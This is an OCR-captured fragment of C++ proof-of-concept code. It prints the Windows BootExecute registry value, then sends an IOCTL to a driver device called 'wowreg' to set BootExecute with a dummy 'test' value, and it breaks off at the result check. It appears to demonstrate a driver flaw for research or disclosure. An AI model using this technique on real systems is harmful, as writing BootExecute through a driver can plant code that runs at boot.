 ```c
        return false;
    }

    std::wstring buffer;
    buffer.resize(cb / sizeof(wchar_t));
    st = RegQueryValueExW(hKey, kBootExecute, nullptr, &type, reinterpret_cast<LPBYTE>(&buffer[0]), &cb);
    RegCloseKey(hKey);
    if (st != ERROR_SUCCESS) 
    {
        return false;
    }

    const wchar_t* p = buffer.c_str();
    while (*p)
    {
        size_t len = wcslen(p);
        entries.emplace_back(p, p + len);
        p += len + 1;
    }
    
    return true;
}

static void ReadRegistry(const wchar_t* tag) 
{
    std::vector<std::wstring> entries;

    if (ParseRegistry(entries)) 
    {
        wprintf(L"\n[+] BootExecute registry entry:\n");
        
        for (size_t i = 0; i < entries.size(); ++i) 
        {
            wprintf(L"  [%zu] %s\n", i, entries[i].c_str());
        }
    }
    else 
    {
        wprintf(L"[-] Unable to read registry entry of BootExecute\n", tag);
    }
}

int wmain() 
{
    ReadRegistry(L"Registry Before");

    HANDLE h = CreateFileW(L"\\\\.\\wowreg", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, nullptr, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, nullptr);
    if (h == INVALID_HANDLE_VALUE) 
    {
        wprintf(L"[-] Unable to open device handle\n");
        return 1;
    }

    DWORD bytesReturned = 0;
    const wchar_t dummy[] = L"test";

    wprintf(L"\nSending IOCTL 0x%08X to set BootExecute...\n", IOCTL_WOWREG_SET_BOOTEXECUTE);
    
    BOOL ok = DeviceIoControl(h, IOCTL_WOWREG_SET_BOOTEXECUTE, (LPVOID)dummy, sizeof(dummy), nullptr, 0, &bytesReturned, nullptr);
    if (!ok) 
```